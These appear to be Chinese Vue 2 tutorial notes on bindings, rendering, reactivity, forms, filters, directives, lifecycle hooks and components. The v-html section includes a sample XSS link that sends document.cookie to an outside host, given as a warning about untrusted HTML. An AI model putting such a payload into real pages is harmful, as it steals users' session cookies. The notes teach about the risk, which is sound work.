切换单个样式
定义好多个类名，对应不同的样式
1
2
3
4
5
6
7
8
9.bg-green {
background-color: rgba(116, 236, 180, 0.56);
}
.border {
border-radius: 5px;
}
.shadow {
box-shadow: 2px 2px 5px #c3d2e3;
}添加点击事件，随机切换样式
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
<html lang="en">
<head>
<meta charset="UTF-8">
<title>Title</title>
<script src="js/vue.js"></script>
<style>
.normal {
width: 200px;
height: 100px;
border: 1px solid black;
}
.bg-green {
background-color: rgba(116, 236, 180, 0.56);
}
.border {
border-radius: 5px;
}
.shadow {
box-shadow: 2px 2px 5px #c3d2e3;
}
</style>
</head>
<body>
<div id="app">
<h2>{{name}}</h2>
<div class = 'normal' :class="myClass" @click="changeClass"></div>
</div>
<script>
Vue.config.productionTip = false
const vm = new Vue({
el: '#app',
data: {
name: 'sai',
myClass: ''
},
methods: {
changeClass() {
const arr = ['bg-green', 'border', 'shadow']
const index = Math.floor(Math.random()*3)
this.myClass = arr[index]
}
}
})
</script>
</body>
</html>
目标元素将来可能需要绑定一个，或一个以上的样式，见下一小节
1.12.1.2.数组写法
应用场景：目标元素将来可能需要绑定一个，或一个以上的样式
1 |
|
要绑定样式的个数不确定，名字也不确定，适合用数组写法
1.12.1.3.对象写法
绑定的样式个数确定，名字也确定，只是不确定用不用的时候，适合用对象写法
1 | <div class="normal" :class="arr"></div> |
arr是个对象
1 | data: { |
1.12.2.style绑定
绑定style样式的对象写法
1 | <div class="normal" :style="styleObj">Hello</div> |
1 | data() { |
绑定style样式的数组写法（比较少见）
1 | <div class="normal" :style="[styleObj1, styleObj2]">Hello</div> |
1 | data: { |
也可以写成：
1 | <div class="normal" :style="styleArr">Hello</div> |
1 | data: { |
style的写法可以通过三元表达式来动态控制样式
1 | <div class="item-list clearfix" :style="{display: currentIndex==index ? 'block': 'none'}"> |
1.12.3.小结：样式绑定
class样式
- 写法：
:class="xxx"，xxx可以是字符串、对象、数组- 字符串写法适用于：类名不确定，要动态获取
- 对象写法适用于：要绑定多个样式，个数不确定，名字也不确定
- 数组写法适用于：要绑定多个样式，个数确定，名字也确定，但不确定用不用
style样式
:style="{fontSize: xxx}"，其中xxx是动态值:style=[a, b]，其中a、b是样式对象
1.13.条件渲染
1.13.1.条件渲染指令
1.13.1.1.v-show
通过控制display属性，来实现元素的显示与隐藏

使用布尔值：
1 | <h2 v-show="false">{{name}}</h2> |
使用能转为布尔值的表达式：
1 | <h2 v-show="1 === 3">{{name}}</h2> |
1.13.1.2.v-if
通过注释的形式，结构消失的很彻底

使用布尔值：
1 | <h2 v-if="false">{{name}}</h2> |
使用能转为布尔值的表达式：
1 | <h2 v-show="1 === 3">{{name}}</h2> |
1.13.1.3.动态控制元素的显示和隐藏
1 | <button @click="n++">+</button> |


备注：如果存在多个判断，建议使用v-if、v-else-if，但是，如果切换的频率较快，建议使用v-show
如果条件结构中包含多个dom，一般想到的是用一个大的div包裹一下，但会多出来一个dom节点
1 | <div v-show="n===1"> |

可以使用template来包裹，这样渲染时就不会多出来一个节点了，但是要注意template只能和v-if配合使用
1 | <div v-if="n===1"> |

1.13.2.小结：条件渲染
v-if
- 写法：
v-if="表达式"v-else-if="表达式"v-else="表达式"
- 适用于：切换频率较低的场景
- 特点：不展示的
Dom直接被移除 - 注意：
v-if可以和v-else-if、v-else一起使用，但要求结构不能被“打断”
v-show
- 写法：
v-show="表达式"- 适用于：切换频率较高的场景
- 特点：不展示的
Dom未被移除，仅仅是使用样式隐藏掉
备注：
使用v-if时，如果判断值为false，元素无法获取到，而使用v-show一定可以获取到节点元素
1.14.列表渲染
1.14.1.v-for基本使用
v-for
- 使用
v-for渲染时，必须指定key作为唯一标识，其值可以用index，也可以用原数据的id - 只有两个形参
- 遍历数组：
v-for="(item, index) in arr" :key=index - 遍历对象：
v-for="(value, key) of obj" :key=key - 遍历字符串：
v-for="(char, index) of str" :key=index - 遍历指定次数：
v-for="(number, index) of 5" :key=index
1 | <ul> |
1.14.2.key的作用与原理
相关面试题：
写了key和不写key时，vue是如何处理的？
key的作用：
- 给节点做一个标识，相当于身份证号
以index作为key导致的问题：
在原数据中新增时，会出现错位的情况

1 |
|
当绑定的key是item.id时，就不会出现这个问题，因为此时用的是数据的唯一标识
那么不写key呢？也会有错位的问题
想弄清楚这个问题，需要理解key的工作原理，以及虚拟dom的diff算法
新旧虚拟dom在进行对比时，依赖的是key
在新的虚拟
dom和旧的虚拟dom中，寻找key是一样的内容匹配到两个
key一样的虚拟dom之后，接着对比里面的每一个节点，对于不一样的虚拟节点，最终会重新渲染成真实dom由于
input在虚拟dom对比时，被认为是一样的，所以并不会重新渲染，而是会复用如果对数据进行了破坏顺序的操作，使用
index作用key可能会导致如上问题，并且没有做到完全复用，效率较低如果用
id作为key，在虚拟dom中，新增的key不会和历史虚拟dom中的key重复，也就没有问题如果遍历列表时，没有指定
key，vue会将索引值自动作为key
所以在绑定key时，用数据的唯一标识即可
1.14.3.小结：列表渲染
- 虚拟
dom中key的作用key是虚拟dom对象的唯一标识，当状态中的数据发生变化时，vue会根据新数据生成新的虚拟dom- 随后
vue进行新虚拟dom和旧虚拟dom的差异对比，比较规则如下
- 对比规则：
- 旧的虚拟
dom中找到了与新的虚拟dom中相同的key- 若虚拟
dom中内容没变，直接使用之前的真实dom - 若虚拟
dom中内容变了，则生成新的真实dom，随后替换掉页面中的真实dom
- 若虚拟
- 旧的虚拟
dom中未找到与新的虚拟dom中相同的key- 创建新的真实
dom，随后渲染到页面
- 创建新的真实
- 旧的虚拟
- 用
index作为key可能会引发的问题：- 若对数据进行：逆序添加、逆序删除等破坏顺序的操作
- 会产生没有必要的真实
dom更新，界面效果没问题，但是效率低
- 会产生没有必要的真实
- 如果结构中还包括输入类的
dom- 会产生错误
dom更新，界面会有问题
- 会产生错误
- 若对数据进行：逆序添加、逆序删除等破坏顺序的操作
- 开发中如何选择
key- 最好使用每条数据的唯一标识作为
key，比如id、手机号、身份证号、学号等唯一值 - 如果不存在对数据的逆序添加、逆序删除等破坏顺序的，仅用于渲染列表用于展示，使用
index作为key是没有问题的
- 最好使用每条数据的唯一标识作为
1.14.4.列表过滤
使用watch实现
1 |
|
使用computed
1 |
|
1.14.5.列表排序
1 |
|
1.15.vue监测数据改变的原理
1.15.1.数据更新时的问题
当数组中的对象作为一个整体被更新时，内存中的数据是改了，但是页面上并没有改，因为
vue没有监测到更改的写法：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
<html lang="en">
<head>
<meta charset="UTF-8">
<title>Title</title>
<script src="js/vue.js"></script>
<style>
</style>
</head>
<body>
<div id="app">
<h2>列表过滤</h2>
<button @click="update">更改信息</button>
<ul>
<li v-for="(item, index) of persons" :key="item.id">{{item.name}} - {{item.age}} - {{item.sex}}</li>
</ul>
</div>
<script>
Vue.config.productionTip = false
const vm = new Vue({
el: '#app',
data: {
persons: [
{id: '001', name: '张三', age: 30, sex: '女'},
{id: '002', name: '张四', age: 34, sex: '女'},
{id: '003', name: '王四', age: 19, sex: '男'},
{id: '004', name: '王五', age: 20, sex: '男'},
],
},
methods: {
update() {
this.persons[0].name = '赵六'
this.persons[0].age = '18'
this.persons[0].sex = '男'
}
}
})
</script>
</body>
</html>无法更改的写法（直接用一整个对象去赋值）
内存中的数据实际改了，但
vue没有监测到，所以页面就没有变化1
2
3
4
5methods: {
update() {
this.persons[0] = {name: '赵六', age: 18, sex: '男'}
}
}
1.15.2.Vue监测对象数据改变的原理
1 |
|
我们之前讲写data配置项后，通过数据代理，vm实例上的_data就代理了配置项data
但这个已经是第二步了
vue拿到配置项data的第一步，是先加工一下data：给data里的每一组键值，都设置了getter/setter函数
然后把加工后的data给了_data
那么为什么要加工呢？加工后就可以做响应式了（数据变了，页面也跟着变）
当后面修改_data里面的内容的时候，就会引起name所对应的setter调用，即reactiveSetter响应式setter，这个响应式setter里面肯定会调用一些方法：能够引起模板的重新解析，引起后续动作
打印输出一下_data：

自己实现：
更改数据后，会有人提示我，更改了
- 创建一个监视的实例对象，用于监视
data中属性的变化 - 汇总对象中所有的属性，形成一个数组
- 遍历每一个
key，在监视的实力对象上，为每个key添加getter/setter（数据代理）
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23let data = {
name: 'sai',
age: 18
}
function Observer(obj) {
// 汇总对象中所有的属性，形成一个数组
const keys = Object.keys(obj)
//遍历添加`getter/setter`
keys.forEach(k => {
Object.defineProperty(this, k, {
get() {
return obj[k]
},
set(val) {
obj[k] = val
}
})
})
}
// 创建一个监视的实例对象，用于监视`data`中属性的变化
const obs = new Observer(data)
console.log(obs)准备一个
vm对象，将obs赋值给该对象的_data属性1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
let data = {
name: 'sai',
age: 18
}
function Observer(obj) {
const keys = Object.keys(obj)
keys.forEach(k => {
Object.defineProperty(this, k, {
get() {
return obj[k]
},
set(val) {
obj[k] = val
console.log(`${k}被修改了，接下来去解析模板，生成虚拟dom`)
}
})
})
}
const obs = new Observer(data)
console.log(obs)
const vm = {}
vm._data = data = obs
console.log(vm)
我们要修改属性，必须通过
_data来修改，vue可以直接修改，这是比我们完善的地方；并且我们没有考虑，对象里面嵌套对象、数据是数组的情况
- 创建一个监视的实例对象，用于监视
1.15.3.Vue.set()方法
后添加的数据，也能实现响应式：
Vue.set(vm._data.student, 'sex', '男')vm.$set(vm._data.student, 'sex', '男')
在Vue中，vm._data.student === vm.student
Vue.set(vm.student, 'sex', '男')vm.$set(vm.student, 'sex', '男')
局限：不能给Vue实例的data追加属性，只能给data里面的某一个对象追加属性
即vm.$set(vm._data, 'sex', '男')是错误的：
1.15.4.Vue检测数组数据改变的原理
对于数组类型的数据，是没有为索引服务的setter/getter的，所以通过索引值修改数组对象，Vue是不能实现响应式的

修改数据后，页面并没有重新解析，因为vue没有监视到
那么用户修改数组数据时，怎么知道修改了呢？
退一步思考，修改数据的方法有哪些呢？
push、pop、shift、unshift、splice、sort、reverse
vue重写了上述方法，在修改数组调用上述方法时，就可以监测到数组改变了
那么vue是怎么监测的到，用户调用了push方法呢？
用户调用的push已经不是原生的push方法了，是经过vue包装过的了
正常数组的的
push是Array原型对象上的push：arr.push === Arrar.prototype.pushvue中管理的数组上的push不是原生的push，还做了其他的事情- 先调用原生的
push - 再重新渲染模板，生成虚拟
dom

- 先调用原生的
Vue通过包装数组身上的常用修改数组的方法，实现数组的监测
对于数组数据，也可以通过Vue.set()或vm.$set()来设置响应式
1.15.5.小结：Vue监视数据
vue会监视data中所有层次的数据- 如何监视对象中的数据
- 通过
getter实现监视，并且要在new Vue时就传入要监视的数据- 对象中后追加的属性，
vue默认不做响应式处理 - 如需给后添加的属性做响应式，请使用如下
api:Vue.set(target, propertyName/index, value)或vm.$set(target, propertyName/index, value)
- 对象中后追加的属性，
- 通过
- 如何监测数组中的数据
- 通过包裹数组更新元素的方法实现，本质就是做了两件事
- 调用原生对应的方法对数组进行更新
- 重新解析模板，进而更新页面
- 通过包裹数组更新元素的方法实现，本质就是做了两件事
- 在
vue中修改数组的某个元素，一定要用如下方法：- 使用这些
API：push()、pop()、shift()、unshift()、splice()、sort()、reverse() Vue.set()或$vm.$set()- 特别注意：不能给
vm或vm的根数据对象添加属性
- 特别注意：不能给
- 使用这些
- 数据劫持
- 把传入的
data都遍历一遍变成getter/setter形式的这种操作，叫做数据劫持
- 把传入的
1.16.收集表单数据
1.16.1.不同类型的输入框
v-mode配合不同input时，会有不同的技巧
最基础的输入框:输入的值，就是
value值1
2账号：<input type="text" v-model="account"><br>
密码：<input type="password" v-model="password"><br>单选框：要配置
value，并且要有一个String类型的变量，存储选中的value值1
2
3性别：
男 <input type="radio" name="sex" v-model="sex" value="male">
女 <input type="radio" name="sex" v-model="sex" value="female"><br>复选框：要配置
value，并且要有一个Array类型的变量，存储选中的value值；如果不配置value，该变量存储的是checked的布尔状态1
2
3
4爱好：
学习 <input type="checkbox" v-model="hobby" value="study">
吃饭 <input type="checkbox" v-model="hobby" value="eating">
打游戏 <input type="checkbox" v-model="hobby" value="game"><br>选择框：内层多个
option要配置value，并且最外层要有一个String类型的变量，存储选中的value值1
2
3
4
5
6
7所属校区：
<select v-mode="city">
<option value="">请选择校区</option>
<option value="beijing">北京</option>
<option value="shanghai">上海</option>
<option value="shenzhen">深圳</option>
</select><br>确认框：配置
value，并且要有一个String类型的变量1
<input type="checkbox" v-model="agree">阅读并接受协议<a href="#">《用户协议》</a>
给最外层的表单，添加
submit事件，并阻止其默认行为，在其回调函数中发送ajax请求1
2
3<form @submit.prevent="submit">
...
</form>由于要收集这些数据，一般在定义
data时，会将表单中需要绑定数据定义在一个大的对象中可以用
JSON.stringify(this.userInfo)将收集到的数据，转化成json格式数字类型的输入值，进行类型控制
原生的使用
type = "number"，控制用户只能输入数字v-model修饰符
number：控制收集到的数据是Number类型，而不是String类型，如果只是用number修饰符，那么输入3a23这种混合值时，只会收集到3，第一次遇到字符串a会停止收集（前台输入也没用）1
年龄 <input type="number" v-model.number="age"><br>
修饰符
lazy：输入框失去焦点时，再收集数据修饰符
trim：收集数据时，会去除输入值的前后空格（中间的空格不会去除）
1.16.2.小结：收集表单数据
- 若
<input type="text"/>，则v-model收集的是value值，用户输入的就是value值 - 若
<input type="radio"/>，则v-model收集的是value值，且要给标签配置value值 - 若
<input type="checkbox"/>- 没有配置
input的value属性，那么收集的就是checked（勾选 / 未勾选，是布尔值） - 配置了
input的value属性：v-model的初始值是非数组，那么收集的就是checked（勾选 / 未勾选，是布尔值）v-model的初始值是数组，那么收集的就是value组成的数组
- 没有配置
- 备注：
v-model的三个修饰符lazy：失去焦点再收集数据number：输入的字符串转为有效的数字trim：输入首尾空格过滤
1.17.过滤器
1.17.1.过滤器的基本使用
功能：对要显示的数据进行特定格式化后再显示
注意：并没有改变原本的数据，是产生新的对应的数据
过滤器的本质就是一个函数，将过滤器符号前的变量time作为默认参数传给timeFormater，然后用timeFormater的返回值，替换整个差值语法实现解析
1 | <h3> |
1 | data() {}, |
1.17.2.过滤器传参
当timeFormater有参数时，如{{ time | timeFormater('YYYY_MM_DD') }}，其默认的第一个参数始终是管道符前的变量
1 | <h3> |
1 | filters: { |
并且es6语法支持设置函数参数的默认值
1 | filters: { |
1.17.3.过滤器串联
类似于管道符，可以串联多个过滤器
1 | <h3> |
备注：定义在配置对象中的过滤器，属于局部过滤器
1.17.4.全局过滤器
假设有两个vm实例，可以定义全局过滤器实现复用
1 | Vue.filter('mySlice', function(value) { |
过滤器除了应用在差值语法上，在单向数据动态绑定时，也可以使用
1 | <h2 :x = "address | mySlice"> |
1.17.8.小结：过滤器
- 定义：对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑处理）
- 语法：
- 注册过滤器
Vue.filter(name, callback)或new Vue(filters: {})
- 使用过滤器
{{ xxx | 过滤器名 }}或v-bind:属性 = "xxx | 过滤器名"
- 注册过滤器
- 备注：
- 过滤器也可以接收额外参数，多个过滤器也可以串联
- 并没有改变原本的数据，是产生新的对应的数据
1.18.内置指令
1.18.1.学过的指令
v-bind：单向绑定解析表达式，可简写成:xxxv-model：双向数据绑定v-for：遍历数组/对象/字符串v-on：绑定事件监听，可简写成@v-if：条件渲染（动态控制节点是否存在）v-else：条件渲染（动态控制节点是否存在）v-show：条件渲染（动态控制节点是否展示）
1.18.2.v-text
1 | <div v-text="name">你好</div> |
1 | data: { |
v-text会把所有的字符串都解析在页面上（即使包含了html标签），并且会覆盖原来节点里的内容

- 作用：向其所在节点中渲染文本内容
- 与差值语法的区别：
v-text会替换掉文本内容，而差值语法不会
1.18.3.v-html
1 | <div v-html="name">你好</div> |
1 | data: { |
v-html会解析字符串里的html标签

cookie
工作原理简易图示

可以通过
document.cookie获取用户本地的cookie，如果被httponly限制了，则该方式获取不到手动演示，在谷歌浏览器上登录
github后，使用插件粘贴在火狐浏览器上，火狐浏览器也登录了v-html风险1
2<div v-html="str">点我获取资源</div>
1
2
3data: {
str: '<a href=javascript:location.href="http://www.baidu.com? + document.cookie">有资源！！快点我！！</a>',
},如果使用不当，会导致
xss攻击
小结：v-html
- 作用：向指定节点中渲染包含
html结构的内容 - 与差值语法的区别
v-html会替换掉节点中所有的内容，差值语法则不会v-html可以识别html结构
- 严重注意，使用
v-html要注意安全性问题- 在网站上动态渲染任意
HTML是非常危险的，容易导致xss攻击 - 一定要在可信内容上，使用
v-html，永远不要再用户提交的内容上使用
- 在网站上动态渲染任意
1.18.4.v-cloak
如果vue.js延迟加载了，页面上会出现很多插值语法，为了隐藏这些插值语法使用v-cloak属性，并给该配置添加css属性
1 | [v-cloak] { |
1 | <h2 v-cloak> |
vue实例接管容器的一瞬间，会将v-cloak属性删除，此时页面就会正常显示。
解决的问题：当网速过慢时，可以不让未经解析的模板跑到页面上
1.18.5.v-once
只会加载一次变量的值
1 | <h2 v-once> |
使用v-once修饰符的插值语法，只会解析一次
小结：
v-once所在节点在初次动态渲染后，就视为静态内容了- 以后数据的改变，不会引起
v-once所在结构的更新，可以用于优化性能
1.18.6.v-pre
- 跳过其所在节点的编译过程
- 可利用它跳过：没有使用指令语法，没有使用插值语法的节点，会加快编译
1.19.自定义指令
需求1：定义一个v-big指令，和v-text功能类似，但会把绑定的数值放大10倍
需求2：定义一个v-fbind指令，和v-bind功能类似，但可以让其所绑定的input元素默认获取焦点
1.19.1.函数形式
使用directives配置项实现自定义指令
函数形式
1
2
3
4
5
6
7
8
9
10
11
12directives: {
big: function(element, binding) {
},
// 简写
big(element, binding) {
console.dir(element)
console.log(element, element instanceof HTMLElement)
console.log(binding)
}
}形参
element是拿到的真实dom，可以用console.dir()方法打印查看，或element instanceof HTMLElement来判断
形参
binding是vue提供的绑定对象，其具体属性如下：
操作真实的
dom元素:1
2
3<h2>当前的n值为：<span v-text="n"></span></h2>
<h2>放大10倍后的n值为：<span v-big="n"></span></h2>
<button @click="n++">n+1</button>1
2
3
4
5directives: {
big(element, binding) {
element.innerText = binding.value * 10
}
}
big函数的调用时机：- 指令和元素成功绑定时（初始化）
- 此时模板还没有被解析成真实
dom
- 此时模板还没有被解析成真实
- 指令所在的模板，被重新解析时
- 可能是其他数据发生了改变，引起了模板重新解析
- 缺点：
- 无法在模板被解析成真实
dom时被调用
- 无法在模板被解析成真实
- 指令和元素成功绑定时（初始化）
1.19.2.对象形式
对象形式
- 要实现需求二，注意
focus()方法要在元素被插入页面时调用
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19directives: {
fbind: {
// 指令和元素成功绑定时（一上来）
bind(element, binding) {
console.log('bind')
element.value = binding.value
},
// 指令所在元素被插入页面时
inserted(element, binding) {
console.log('inserted')
element.focus()
},
// 指令所在的模板被重新解析时
update(element, binding) {
console.log('update')
element.value = binding.value
}
}
}- 要实现需求二，注意
很多时候，
bind()和update()函数，其内容是一样的，所以vue提供了函数的写法，相当于调用了bind()和update()，这三个函数其实就是回调函数，vue会在不同的时候帮我们调用这些函数
1.19.3.小结：自定义指定
定义语法
局部指令
1
2
3
4
5new Vue({
directives: {
指令名： 函数
}
})或者
1
2
3
4
5
6
7
8
9
10new Vue({
directives: {
指令名：{ // 配置对象
//三个时机的回调函数
bind() {},
inserted() {},
update() {}
}
}
})全局指令
1
Vue.directive(指令名, 回调函数)
或者
1
2
3
4
5
6Vue.directive(指令名, { //第二个参数为配置对象
//三个时机的回调函数
bind() {},
inserted() {},
update() {}
})
配置对象中，常用的三个回调
bind：指令与元素成功绑定时的回调inserted：指令所在元素被插入到页面时调用update：指令所在模板结构被重新解析时调用
备注：
- 指令定义时不用加
v-，但使用时需要加v- - 指令名如果是多个单词，要使用
kebab-case命名方式(user-name)，不要使用camelCase命名方式(userName)
- 指令定义时不用加
1.20.生命周期
1.20.1.引出生命周期
想要页面加载完时，执行一个渐变操作，该如何实现？
真实开发时，一般不会用变量接收vm实例，更不会操作vm实例
mounted()调用时机
Vue完成模板的解析，并把初始的真实的dom元素放入页面后（完成挂载），调用mounted- 只会调用一次
- 所谓的生命周期，就是一个函数，
vue会在特定的时机帮你调用特定的函数
小结：
- 生命周期，又叫生命周期回调函数、生命周期钩子函数
- 是什么：
vue在关键时刻帮我们调用的一些特殊名称的函数 - 生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的
- 生命周期中的
this指向的是vm或组件实例对象
1.20.2.生命周期挂载流程

new VUe()- 创建
Vue实例
- 创建
init Event & Lifecycle（知道一下，干预不了）初始化：生命周期、事件，但数据代理还未开始
如定义好生命周期函数有哪些、什么时候调用
如遇到了事件的
once修饰符，应该怎么处理此时
Vue实例上还没有_data
beforeCreate（生命周期函数）初始化生命周期、事件之后，会立刻调用
beforeCreate生命周期函数before表示，在数据监测和数据代理之前
此时，无法通过
vm访问到data中的数据、methods中的方法我们在
beforeCreate函数中，打印vm实例，并设置断点查看：1
2
3console.log('beforeCreate')
console.log(this)
debugger可以看到，此时
vm身上并没有_data
可以利用断点，进行调用堆栈及本地作用域分析
init injections & reactivity初始化：数据监测、数据代理
监测对象变化、监测数组变化
一旦完成了上述操作，调用
created回调函数
created（生命周期函数）在数据监测和数据代理创建完毕后调用
此时，可以通过
vm访问data中的数据、method中配置的方法1
2
3
4created() {
console.log('created', this)
debugger
},
判断配置项中是否有
el配置项。此阶段Vue开始解析模板，生成虚拟dom（内存中），页面还不能显示解析好的内容（显示的是模板）Yes：判断temmplate配置项No：when vm.$mounted(el) is called，如果没有配置el，则会去调用mounted备注：如果没写
el，也没有调vm.$mounted，则到这一步就不会继续进行了，即不会解析模板，只会执行beforeCreate和created两个生命周期函数判断是否有
template配置项Yes：Compile template into render function，把template配置项编译到render函数中容器里面可以什么都不写，使用
template配置项1
2
3
4
5template: `
<div>
<h2>Hello World</h2>
</div>
`会用
template值，完全替换调根节点
No：Compiler el's outHTML as template，编译el外部HTML（包含选择器的那个元素）整体作为模板（可以在该节点上单向绑定验证一下是否被渲染）
beforeMount（生命周期函数）此时页面呈现的是，未经
Vue编译的dom结构1
2
3
4beforeMount() {
console.log(this)
debugger
},
所有对
dom的操作，最终都不奏效- 因为再怎么修改，下一步会把已经定义好的虚拟
dom转为真实dom，并插入页面
- 因为再怎么修改，下一步会把已经定义好的虚拟
Create vm.$el and replace 'el' with it：在vm身上创建$el选项并且用它替换掉整个el容器里的东西将内存中的虚拟
dom转为真实dom插入页面转为真实
dom后，在vm.$el上将真实dom存了一份1
2
3
4mounted() {
console.log(this.$el)
console.log(this.$el instanceof HTMLElement)
},
mounted此时页面中呈现的是经过
vue编译的dom
对
dom的操作均有效（尽可能避免）至此初始化过程结束，一般在此进行：
- 开启定时器
- 发送网络请求
- 订阅消息
- 绑定自定义事件
- 等其他初始化操作
1.20.3.生命周期更新流程
当数据改变时
beforeUpdate（生命周期函数）更改数据之前
此时，数据是新的，但是页面是就旧的。即：页面尚未和数据保持同步
1
2
3
4beforeUpdate() {
console.log(this.n)
debugger
},
Virtual DOM re-render and patch- 根据新数据，生成新的虚拟
DOM，随后与旧的虚拟DOM进行比较，最终完成页面更新。即：完成了Model ==> View的更新
- 根据新数据，生成新的虚拟
updated（生命周期函数）此时，数据是新的，页面也是新的。即：页面和数据保持同步
1
2
3
4updated() {
console.log(this.n)
debugger
},
1.20.4.生命周期销毁流程
- 当调用
vm.$destroy()时：完全销毁一个实例，清理它与其他实例的连接，解绑它的全部指令及事件监听器（移出的是自定义事件，而不是原生的dom事件）beforeDestroy（生命周期函数）- 此时：
vm中所有的data、methods、指令等等，都处于可用状态，马上要执行销毁过程，一般在此阶段关闭定时器、取消订阅消息、解绑自定义事件等收尾操作 - 对数据进行的所有操作，都不会再触发更新
- 此时：
TearDown watches, child components and event listeners- 移出监视、组件和自定义事件监听器
destoryed
1.20.5.小结：生命周期
- 常用的生命周期钩子
mounted：发送ajax请求、启动定时器、绑定自定义事件、订阅消息等初始化操作beforeDestroy：清除定时器、解绑自定义事件、取消订阅消息等收尾操作
- 关于销毁
Vue实例- 销毁后借助
Vue开发者工具看不到任何信息 - 销毁后自定义事件会失效，但原生
DOM事件依然有效 - 一般不会在
beforeDestroy中操作数据，因为即使操作数据，也不会再触发更新流程了
- 销毁后借助
1 |
|
2.Vue组件化编程
2.1.模块与组件、模块化与组件化
2.1.1.模块
- 理解：向外提供特定功能的
js程序，一般就是一个js文件 - 为什么要使用模块：
js文件很多很杂- 从编程者文件构建梳理，文件的角度
- 使用模块的作用：简化
js的编写，提高js运行效率
2.1.2.组件
- 理解：用来实现局部（特定）功能效果的代码集合（
html/css/js/images/...）- 就是功能集合
- 为什么要使用组件：一个界面的功能很复杂
- 从应用界面构建，代码的角度
- 作用：复用编码，简化项目编码编码，提高运行效率
传统方式编写应用，一个html页面会对应很多css和js文件，并且如果不同的页面，有相同的地方，唯一能做的就是复制/粘贴代码或文件，存在的问题：1.每个页面的依赖关系混乱，不好维护。2.代码复用率不高

模块化就是为了解决上述问题的。
使用组件方式编写应用：

所有的组件，必须听一个大哥vm的指挥

组件的定义：实现应用中局部功能代码和资源的集合
2.1.3.模块化
当应用中的js都以模块来编写的，那么这个应用就是一个模块化应用
2.1.4.组件化
当应用中的功能都是多组件方式来编写的，那么这个应用就是一个组件化应用
2.2.非单文件组件
2.2.1.局部组件
会用
Vue.extend()方法创建组件，并传入一个配置对象该配置对象都是用来控制组件中的内容的
- 这个配置项，和之前的实例化的配置对象，几乎是一样的
- 组件定义时，不能配置
el，因为只能有一个大哥vm，最终所有的组件都要被一个vm管理，由vm决定服务于哪个容器 data配置项，需要写成一个函数，函数里面返回配置对象，保证数据隔离
第一步：创建组件
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15const school = Vue.extend({
data() {
return {
name: 'test'
}
}
})
const student = Vue.extend({
data() {
return {
name: 'student'
}
}
})第二步：注册组件
在
vm的options中，新增components配置对象（局部注册）1
2
3
4
5
6
7new Vue({
el: "#root",
components: {
school,
student
}
})我们分析生命周期流程时候，如果没有
el配置项，则会去找template配置项，对于组件我们可以配置template作为模板1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25const school = Vue.extend({
template: `
<div>
学校姓名：{{name}}
</div>
`,
data() {
return {
name: 'test'
}
}
})
const student = Vue.extend({
template: `
<div>
学生姓名：{{name}}
</div>
`,
data() {
return {
name: 'student'
}
}
})第三步：使用组件
编写组件标签
1
2
3
4<div id="root">
<school></school>
<student></student>
</div>
2.2.2.全局组件
第一步，还是先定义hello
第二步：使用Vue.component()注册全局组件
1 | Vue.component('hello', hello) |
第三步，此时可以直接在多个vm编写组件标签
2.2.3.小结：非单文件组件
Vue中使用组件的三大步骤- 一、定义组件（创建组件）
- 编写
template配置项
- 编写
- 二、注册组件
- 局部注册：使用
vm的components配置项 - 全局注册：使用
Vue.component()方法
- 局部注册：使用
- 三、使用组件
- 根模板中，编写组件标签
- 一、定义组件（创建组件）
- 如何定义组件？
- 使用
Vue.extend(options)创建，其中options和new Vue(options)时传入的配置对象基本一致，但也有区别，区别如下：el不用写- 因为最终所有的组件都要经过一个
vm的管理，由vm中的el决定服务哪个容器
- 因为最终所有的组件都要经过一个
data必须写成函数- 避免组件被复用时，数据存在引用关系
- 使用
template可以配置组件结构
- 使用
- 如何注册组件？
- 局部注册：
new Vue时传入components配置项 - 全局注册：使用
Vue.component('组件名', 组件)方法
- 局部注册：
- 如何使用组件？
- 编写组件标签：
<school></school>
- 编写组件标签：
2.2.4.使用组件的几个注意点
注册组件时，
如果组件名是一个单词
- 如果是小写的，组件标签也是小写
- 如果组件名是大写的，组件标签也是大写，建议大写，和开发者工具对应
如果组件名是多个单词
- 组件名若是
my-school，组件标签写成<my-school></my-school> - 组件名若是
MySchool，组件标签写成<MySchool></MySchool>- 如果不是用的脚手架，则会报错
- 用脚手架的话，建议这种写法
- 组件名若是
小结：
关于组件名
- 一个单词组成
- 第一种写法（首字母小写）：
school - 第二种写法（首字母大写）：
School
- 第一种写法（首字母小写）：
- 多个单词组成
- 第一种写法（
kebab-case命名）：my-school - 第二种写法（
CamelCase命名）：MySchool，需要vue-cli支持
- 第一种写法（
- 备注：
- 组件名尽可能回避
HTML中已有元素的名称，如h2、H2都不行 - 定义组件时，可以使用
name配置项指定组件在开发者工具中呈现的名字- 一般第三方组件库会这么做
- 大型项目开发时，避免组件错乱
- 组件名尽可能回避
- 一个单词组成
关于组件标签
- 第一种写法：
<school></school> - 第二种写法：
<school/> - 备注：没有用脚手架时，第二种写法
<school/>会导致后续组件不能被渲染
- 第一种写法：
定义组件的简写方式：
1
2
3
4const school = Vue.extend(options)
// 简写
const shool = options- 注册组件时，底层做了一个判断，如果
components传入的是一个对象，会帮我们调用Vue.extend()的
- 注册组件时，底层做了一个判断，如果
2.2.5.组件的嵌套
标准化开发时，vm下应该要有一个app组件，类似丞相的角色，并且可以将app组件标签的调用，写在vm的template配置项中，使得容器中没有任何代码
1 |
|

2.2.6.VueComponent构造函数
school组件本质上是一个名为VueComponent的构造函数，且不是程序员定义的，是Vue.extend生成的我们只需要写
<school></school>或者<school/>，Vue解析时会帮我们创建school组件的实例对象，即Vue帮我们执行的new VueComponent(options)特别注意：每次调用
Vue.extend，返回的都是一个全新的VueComponent关于
this指向- 组件配置中
data函数、methods中的函数、watch中的函数、computed中的函数，它们的this指向均是**VueComponent**
new Vue()配置中data函数、methods中的函数、watch中的函数、computed中的函数，它们的this指向均是**Vue实例**
- 组件配置中
